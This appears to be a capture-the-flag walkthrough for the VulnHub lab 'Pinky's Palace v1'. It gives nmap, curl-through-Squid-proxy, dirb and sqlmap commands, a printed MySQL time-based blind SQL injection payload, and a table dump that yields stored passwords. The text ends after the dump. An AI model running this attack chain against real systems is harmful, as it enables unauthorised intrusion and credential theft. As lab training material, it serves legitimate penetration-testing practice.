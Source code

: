 # Pinky's Palace v1

> https://www.vulnhub.com/entry/pinkys-palace-v1,225/

`nmap 192.168.1.0/24` finds target: 192.168.1.16

`nmap -sV -sT -A -p- 192.168.1.16` finds the following services:

* nginx, 8080
* squid proxy, 31337
* ssh daemon, 64666

`curl -I 192.168.1.16:8080` returns 403
`curl -I 192.168.1.16:31337` returns 400
`curl -I --proxy 192.168.1.16:31337 127.0.0.1:8080` returns 200

the homepage says "Pinky's HTTP File Server"

enumerate the file system with:
`dirb http://127.0.0.1:8080/ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -p 192.168.1.16:31337`

this finds two pages:
* `/littlesecrets-main` - login form
* `/littlesecrets-main/log.php` - log of login attempts

try sql injection on login form:
`sqlmap --proxy=http://192.168.1.16:31337 --data="user=admin&pass=admin" --url=http://127.0.0.1:8080/littlesecrets-main/login.php --level=5 --risk=3`

finds that the database is mysql and has the following vulnerability:
```
Parameter: User-Agent (User-Agent)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: sqlmap/1.2.3#stable (http://sqlmap.org)'||(SELECT 'jIXr' FROM DUAL WHERE 9137=9137 AND SLEEP(5))||'
```

dump the tables:
`sqlmap --dbms=mysql --dump tables --proxy=http://192.168.1.16:31337 --data="user=admin&pass=admin" --url=http://127.0.0.1:8080/littlesecrets-main/login.php --level=5 --risk=3`

sqlmap will find what it thinks are passwords in the users table and ask to store them separately in a file

